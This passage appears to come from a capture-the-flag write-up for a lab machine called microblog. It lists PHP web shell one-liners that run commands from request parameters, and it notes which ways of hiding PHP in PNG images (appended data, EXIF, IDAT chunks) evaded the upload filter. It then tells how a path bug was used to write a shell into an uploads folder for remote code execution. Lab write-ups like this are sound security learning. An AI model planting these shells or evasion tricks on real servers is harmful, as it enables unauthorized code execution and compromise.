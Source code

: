 This article is also really good an gives a great of all the different ways to embed php in images:  
[https://www.synacktiv.com/en/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there](https://www.synacktiv.com/en/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there)  

In french but also great content:  
[https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/](https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/)  

Notes of some php things I could do
```php
<?php phpinfo();?>
<?php exec($_GET['cmd']);?>
<?php system($_GET['cmd']);?>
<?php shell_exec($_GET['cmd']);?>
<?php $_GET[0]($_POST[1]);?>
<?=$_GET[0]($_POST[1]);?>
```
Note `<?=` is a shortcut for `<?php echo`  

I spent a bunch of time trying to include a php shell embeded in an image, as described in the links above:   
- png with php appended to the end of it -> caught
- png with php in exif data -> not caught
- png with php in idat -> not caught

The extension of the uploaded things are still png though, so they need to be included somehow  
Maybe it's possible, maybe it isn't, in any case I just didn't manage to make it work.  
I'm sure if it is possible IppSec will show us the way in a few month.  

That beeing said, once we have pro, we have write access to `/var/www/microblog/blnkn/uploads/` so we can use the same bug that gave us LFI earlier to write a php shell in uploads, since we controll the path.  
![info-burp.png](info-burp.png)  

Then just visit the upload path and we got RCE